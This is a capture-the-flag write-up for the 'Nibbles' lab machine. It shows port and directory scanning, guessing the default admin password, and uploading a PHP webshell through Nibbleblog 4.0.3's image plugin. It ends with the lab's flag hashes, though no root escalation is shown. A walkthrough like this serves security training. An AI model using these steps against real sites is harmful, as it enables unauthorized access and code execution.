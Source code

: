 ```yaml
---
layout: post
title: Nibbles
tags: [OSCP, Writeup, Linux, Web, FIle isconfiguration, CMS Exploit]
description: "Nibbles write-up"
---
```


![Nibbles logo](/assets/imgs/nibbles/nibbles.png)

### This is an easy linux box

## Tools used

------

- browser
- ffuf
- nmap


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA nibbles 10.10.10.75 -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here’s what nmap teaches us :

- port 22 (SSH) - OpenSSH 7.2p2
- port 80 (HTTP) - Apache 2.4.18

Not a lot of open ports, let's first go to the web port.

There's not a lot of thing here, so I went up the source code and here's what was in it :

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Went on it :

![Nibbleblog](/assets/imgs/nibbles/website.PNG)

So this is a blog and we can see at the bottom right that this is "Powered by Nibbleblog". From here I used ffuf to do some files/directories brute force.

```
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.75/nibbleblog/FUZZ -e .php,.html,.txt -t 250

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.75/nibbleblog/FUZZ
 :: Wordlist         : FUZZ: /home/liodeus/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .php .html .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 250
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

index.php               [Status: 200, Size: 2985, Words: 116, Lines: 61]
themes                  [Status: 301, Size: 322, Words: 20, Lines: 10]
feed.php                [Status: 200, Size: 302, Words: 8, Lines: 8]
admin                   [Status: 301, Size: 321, Words: 20, Lines: 10]
admin.php               [Status: 200, Size: 1401, Words: 79, Lines: 27]
plugins                 [Status: 301, Size: 323, Words: 20, Lines: 10]
install.php             [Status: 200, Size: 78, Words: 11, Lines: 1]
update.php              [Status: 200, Size: 1621, Words: 103, Lines: 88]
languages               [Status: 301, Size: 325, Words: 20, Lines: 10]
sitemap.php             [Status: 200, Size: 401, Words: 33, Lines: 11]
content                 [Status: 301, Size: 323, Words: 20, Lines: 10]
```

Looking throught those files and directories, I was able to found the version of blog used, a login page and a user :

![Nibbleblog version](/assets/imgs/nibbles/version.PNG)

![Nibbleblog login page](/assets/imgs/nibbles/login_admin.PNG)

![Nibbleblog user page](/assets/imgs/nibbles/user.PNG)

Knowing the version installed let's see if there is known exploits :

![Searchsploit Nibbleblog 4.0.3](/assets/imgs/nibbles/exploit.PNG)

Nice, there is one ! It's a Metasploit module, let's read the code and do it manually, first download the exploit :

```
searchsploit -m php/remote/38489.rb
```

Reading throught the code, I first need an account to exploit this flaw :

```
Nibbleblog contains a flaw that allows a authenticated remote attacker to execute arbitrary PHP code. This module was tested on version 4.0.3.
```

Let's go back to our login page, I know the username, just missing the password ! Let's try default passwords :

- admin:admin - Not working
- admin:root - Not working
- admin:password - Not working
- admin:administrator - Not working
- admin:nibbles - Working

I now have the admin account ! I did not fully understand the metasploit module, so I search on Google how to exploit the Nibbleblog flaw and I found this wiki with a great explanation : [https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/).

Now let's exploit !

## Exploit

------

First go to :

```
http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image
```

![Image plugin](/assets/imgs/nibbles/user.PNG)

Then browse and upload a webshell or reverse shell. I used a webshell that I very like which is p0wny-shell ([https://github.com/flozz/p0wny-shell](https://github.com/flozz/p0wny-shell)). Ignore the warnings upon upload :

![Warnings ignore](/assets/imgs/nibbles/warnings.PNG)

And now go to :

```
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

![Powny shell](/assets/imgs/nibbles/powny_shell.PNG)

I have a webshell as the user ! Now it's time to root !



## Flags

------

### User.txt

```bash
cat user.txt
b02ff32bb332deba49eeaed21152c8d8
```

### Root.txt

```bash
cat root.txt
b6d745c0dfb6457c55591efc898ef88c
```